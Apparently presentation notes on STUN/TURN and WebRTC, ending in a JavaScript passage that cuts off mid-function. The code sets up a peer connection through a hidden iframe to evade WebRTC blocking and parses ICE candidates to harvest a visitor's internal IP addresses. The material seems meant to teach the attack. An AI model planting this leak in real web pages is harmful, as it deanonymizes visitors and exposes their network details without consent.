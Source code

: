 --
# STUN / TURN
1. STUN : Direct connection between two nodes.
1. TURN : server mediated
1. STUN : Higher speed if users in same network
1. TURN : can traverse symmetric NATs too
1. TURN protocol runs top of STUN to setup a relay service
1. A critical disadvantage of a TURN server is its cost; and huge bandwidth usage in case when HD video stream is delivered. 

--
# Initiate WebRTC Connection
<pre>
//compatibility for firefox and chrome
var RTCPeerConnection = window.RTCPeerConnection || window.mozRTCPeerConnection || window.webkitRTCPeerConnection;

var useWebKit = !!window.webkitRTCPeerConnection;

//bypass naive webrtc blocking using an iframe
if(!RTCPeerConnection){
var win = iframe.contentWindow;
RTCPeerConnection = win.RTCPeerConnection || win.mozRTCPeerConnection || win.webkitRTCPeerConnection;
useWebKit = !!win.webkitRTCPeerConnection;
}

//minimal requirements for data connection
var mediaConstraints = {optional: [{RtpDataChannels: true}]};

var servers = undefined;
//add same stun server for chrome
if(useWebKit)
servers = {iceServers: [{urls:"stun:stun.services.mozilla.com"}]};

//construct a new RTCPeerConnection
var pc = new RTCPeerConnection(servers, mediaConstraints);
</pre>

--

# Attack
1. most useful to extract internal IP Addresses using STUN and SDP (Session Description protocol)

--

# Connection via STUN

<pre>
&lt;iframe id="iframe" sandbox="allow-same-origin" style="display: none">&lt;/iframe>
&lt;script>
//get the IP addresses associated with an account
function getIPs(callback){
var ip_dups = {};
<b>&lt;INITIATE RTC Connection &gt;</b>
function handleCandidate(candidate){
//match just the IP address
var ip_regex = /([0-9]{1,3}(\.[0-9]{1,3}){3})/
var ip_addr = ip_regex.exec(candidate)[1];
//remove duplicates
if(ip_dups[ip_addr] === undefined)
  callback(ip_addr);